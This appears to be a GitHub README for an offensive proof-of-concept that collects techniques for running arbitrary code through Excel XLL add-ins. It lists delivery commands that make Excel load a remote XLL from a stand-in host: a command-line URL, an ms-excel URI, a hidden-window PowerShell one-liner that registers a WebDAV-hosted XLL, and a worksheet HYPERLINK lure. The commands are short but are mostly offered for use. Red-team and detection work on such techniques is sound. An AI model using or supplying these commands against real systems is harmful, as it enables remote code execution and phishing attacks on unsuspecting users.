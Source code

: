 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. 

### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee: 
- @buffaloverflow: https://twitter.com/buffaloverflow/status/888427071327916032

### Getting Exec
Put your code in either,
```
dllmain.cpp
PROCESS_ATTACH

XLL_POC.cpp
xlAutoOpen()
```
#### Some various execution techniques 
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyones favourite oneliner 
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet (xll cant be found)
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```

